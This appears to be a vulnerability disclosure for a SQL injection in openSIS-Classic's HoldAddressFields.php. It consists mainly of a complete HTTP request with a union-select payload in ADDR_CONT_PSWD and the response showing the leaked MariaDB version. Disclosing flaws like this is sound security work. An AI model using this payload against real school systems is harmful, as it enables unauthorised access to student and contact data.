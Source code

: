 ![#1589F0](https://via.placeholder.com/15/008080/000000?text=+) **Product:** `openSIS-Classic`
![#1589F0](https://via.placeholder.com/15/008080/000000?text=+) **Vulnerability param:** `ADDR_CONT_USRN, ADDR_CONT_PSWD, SECN_CONT_USRN, SECN_CONT_PSWD`
![#1589F0](https://via.placeholder.com/15/008080/000000?text=+) **Effected source code file::** `HoldAddressFields.php`

# Description

Because of lacking of sanitizer of input data, attacker can injection malicious sql into query by control parameters such as `ADDR_CONT_USRN`, `ADDR_CONT_PSWD` or `SECN_CONT_USRN`, `SECN_CONT_PSWD` in file `HoldAddressFields.php`.


### Request

```
POST /HoldAddressFields.php HTTP/1.1
Host: 172.16.0.12:2222
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: vi,vi-VN;q=0.9,fr;q=0.8,en-US;q=0.7,en;q=0.6,sm;q=0.5,la;q=0.4,zh-CN;q=0.3,zh-TW;q=0.2,zh;q=0.1
Cookie: cywg_2132_saltkey=E2w57uH2; cywg_2132_lastvisit=1630101103; cywg_2132_ulastactivity=6590uIjzBHML3smc7veG8yziPxJyaiN4jgoE9aN3L3FvOCr3Ov1_; ORRL_2132_saltkey=SSddxNX7; ORRL_2132_lastvisit=1630117184; ORRL_2132_ulastactivity=4e4933KaEc2d5jrijCQZlYd-PcZ8j470p8v4gqPXPHDs6JlJdGR4; ORRL_2132_forum_lastvisit=D_1_1630131788D_index_1630131832; PHPSESSID=i3j7fp3hcjbmot1d60daol514a
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

ADDR_CONT_USRN=123&ADDR_CONT_PSWD="+union+select+1,2,3,4,version(),6,7,8,9--+-
```

### Response

```
HTTP/1.1 200 OK
Date: Wed, 01 Sep 2021 12:38:58 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.4.21
X-Powered-By: PHP/7.4.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1372
Connection: close
Content-Type: text/html; charset=UTF-8





Array
(
    [ADDR_PRIM_L1] => 
    [ADDR_PRIM_L2] => 
    [ADDR_PRIM_CITY] => 
    [ADDR_PRIM_STATE] => 
    [ADDR_PRIM_ZIP] => 
    [ADDR_PRIM_BUSNO] => 
    [ADDR_PRIM_BPU] => 
    [ADDR_PRIM_BDO] => 
    [ADDR_SAME_HOME] => 
    [ADDR_SAME_AS] => 
    [ADDR_MAIL_L1] => 
    [ADDR_MAIL_L2] => 
    [ADDR_MAIL_CITY] => 
    [ADDR_MAIL_STATE] => 
    [ADDR_MAIL_ZIP] => 
    [ADDR_CONT_RSHIP] => 
    [ADDR_CONT_FIRST] => 
    [ADDR_CONT_LAST] => 
    [ADDR_CONT_HOME] => 
    [ADDR_CONT_WORK] => 
    [ADDR_CONT_CELL] => 
    [ADDR_CONT_MAIL] => 
    [ADDR_CONT_CUSTODY] => 
    [ADDR_CONT_PORTAL] => 
    [ADDR_CONT_USRN] => 123
    [ADDR_CONT_PSWD] => 10.4.20-MariaDB
    [ADDR_CONT_SAHA] => 
    [ADDR_CONT_ADNA] => 
    [ADDR_CONT_LIN1] => 
    [ADDR_CONT_LIN2] => 
    [ADDR_CONT_CITY] => 
    [ADDR_CONT_STAT] => 
    [ADDR_CONT_ZIP] => 
    [CHK_HOME_ADDR_PRIM] => 
    [SECN_CONT_RSHIP] => 
    [SECN_CONT_FIRST] => 
    [SECN_CONT_LAST] => 
    [SECN_CONT_HOME] => 
    [SECN_CONT_WORK] => 
    [SECN_CONT_CELL] => 
    [SECN_CONT_MAIL] => 
    [SECN_CONT_CUSTODY] => 
    [SECN_CONT_PORTAL] => 
    [SECN_CONT_USRN] => 
    [SECN_CONT_PSWD] => 
    [SECN_CONT_LIN1] => 
    [SECN_CONT_LIN2] => 
    [SECN_CONT_CITY] => 
    [SECN_CONT_STAT] => 
    [SECN_CONT_ZIP] => 
    [CHK_HOME_ADDR_SECN] => 
    [SELECTED_PRIMARY] => 
    [SELECTED_SECONDARY] => 
)


```


### PoC

![poc](https://user-images.githubusercontent.com/17811861/131673842-3ed048a9-e433-4ebb-806b-52a8f773ec67.png)
